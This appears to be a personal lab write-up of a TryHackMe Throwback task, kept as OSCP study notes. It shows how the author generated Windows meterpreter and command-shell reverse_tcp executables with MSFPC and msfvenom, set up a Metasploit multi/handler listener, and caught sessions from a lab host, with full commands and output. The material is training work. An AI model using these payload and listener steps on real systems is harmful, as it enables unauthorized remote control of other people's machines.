 # Yo Dawg, I heard you like proxies

Firstly to setup a meterpreter shell to then setup the proxychaining required for task I will use a tool I have seen in other github repositories about taking the OSCP. [MSFPC](https://github.com/g0tmi1k/msfpc). Install on a kali linux with:
```bash
apt install -y msfpc
```
or the THM AttackBox
```bash
curl -k -L "https://raw.githubusercontent.com/g0tmi1k/mpc/master/msfpc.sh" > /usr/local/bin/msfpc
chmod 0755 /usr/local/bin/msfpc
```
![msfpcsetup](Screenshots/msfpc.png)
Initially I tried:
```bash
root@ip-10-10-90-140:~# msfpc windows 10.10.90.140
 [*] MSFvenom Payload Creator (MSFPC v1.4.5)
 [i]   IP: 10.10.90.140
 [i] PORT: 443
 [i] TYPE: windows (windows/meterpreter/reverse_tcp)
 [i]  CMD: msfvenom -p windows/meterpreter/reverse_tcp -f exe \
  --platform windows -a x86 -e generic/none LHOST=10.10.90.140 LPORT=443 \
  > '/root/windows-meterpreter-staged-reverse-tcp-443.exe'

 [i] windows meterpreter created: '/root/windows-meterpreter-staged-reverse-tcp-443.exe'

 [i] MSF handler file: '/root/windows-meterpreter-staged-reverse-tcp-443-exe.rc'
 [i] Run: msfconsole -q -r '/root/windows-meterpreter-staged-reverse-tcp-443-exe.rc'
 [?] Quick web server (for file transfer)?: python3 -m http.server 8080
 [*] Done!
```

One thing I am surprised to learn is that it is only meterpreter payloads, which you are only allowed one of in the OSCP, but the otherwise its does awesome automation on a typing intensive task. It solves what its sets out to do and extends user capabilities. I have heard of g0tmi1k from privesc blogs, which are a extremely informative resource.

I then realised while building my [Archive](https://github.com/7RU7H/Archive) Metasploit section that I would need to further configure the LHOST address on the payload because of the Throwback using the inet address so as cool as that tool is, I'll just go it the manual way, but happy that there is a simple automated option.

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp -f exe -o shell.exe LHOST=10.50.96.34 LPORT=4444
```

Re-wget-ed the shell.exe and setup msfconsole multi/hander to listen for the connection back. Start a listener, set payload, configure options, bang head off the keys: E X P L O I T
```msfconsole
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST $LISTENING-IP
set LPORT $LISTENING-PORT
exploit
```

![msfhandler](Screenshots/ydp-metersetup.png)
The output:
```msfconsole
[*] Started reverse TCP handler on 10.50.96.34:4444 
[*] Sending stage (176195 bytes) to 10.200.102.219
[*] 10.200.102.219 - Meterpreter session 1 closed.  Reason: Died
[*] Meterpreter session 1 opened (10.50.96.34:4444 -> 10.200.102.219:50774) at 2022-04-20 20:47:43
```
So I tried regular shell not meterpreter:
```bash
root@ip-10-10-90-140:~#  msfvenom -p windows/x64/meterpreter/reverse_tcp -f exe -o shell.exe LHOST=10.50.96.34 LPORT=4444
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: shell.exe
```
Configured the handler:
```msfconsole
# changed the payload
msf5 exploit(multi/handler) > set payload windows/shell/reverse_tcp
payload => windows/shell/reverse_tcp
```
Also downloaded it to `Windows\TEMP` for the global writablity the directory offers, just in case. It hung on this:
```msfconsole
[*] Started reverse TCP handler on 10.50.96.34:4444 
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (267 bytes) to 10.200.102.219
[*] Command shell session 6 opened (10.50.96.34:4444 -> 10.200.102.219:51027) at 2022-04-20 21:01:59 +0100

msf5 exploit(multi/handler) > sessions -i 6
[*] Starting interaction with 6...

[*] 10.200.102.219 - Command shell session 6 closed.
```
